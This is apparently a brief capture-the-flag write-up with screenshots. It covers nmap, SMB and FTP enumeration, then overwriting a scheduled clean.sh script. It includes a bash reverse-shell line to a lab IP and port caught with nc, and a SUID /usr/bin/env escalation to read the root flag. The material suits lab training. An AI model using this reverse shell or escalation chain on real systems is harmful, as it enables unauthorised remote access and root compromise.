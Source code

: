 * nmap

   ![image](https://user-images.githubusercontent.com/92675550/174432657-730e26af-6177-4cfe-906e-28842a7b9c24.png)

* smb

    ![image](https://user-images.githubusercontent.com/92675550/174432672-b33a0321-26f5-417e-8bf7-04e3c87e6ce4.png)
    
    its contents(no use)
      ![image](https://user-images.githubusercontent.com/92675550/174432739-2223ef13-020e-4e6b-b5ae-22158cc7fb88.png)


* ftp
* 
   ![image](https://user-images.githubusercontent.com/92675550/174432784-41681aaa-be31-4fda-a085-d3c65aef501b.png)
   
   ->contents of clean.sh 
   `#!/bin/bash
    tmp_files=0
    echo $tmp_files
    if [ $tmp_files=0 ]
    then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
    else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
    fi`
    
    contents of removed_files.log
         Running cleanup script:  nothing to delete
                 (repeated many times: hinds that clean.sh is run in regular interval)
   
   -aim for getting shell then
      `#!/bin/bash
       sh -i >& /dev/tcp/10.17.52.250/5050 0>&1`
       
   -then put clean.sh back into ftp(edited one)..and keep listening on ur computer using nc.
   
   -after 1 min we get the shell.
   
   -then searched for SUID binaries ! got /usr/bin/env.
   
   -referred gftobin `/usr/bin/env /bin/sh -p`
   
   -cat /root/root.txt
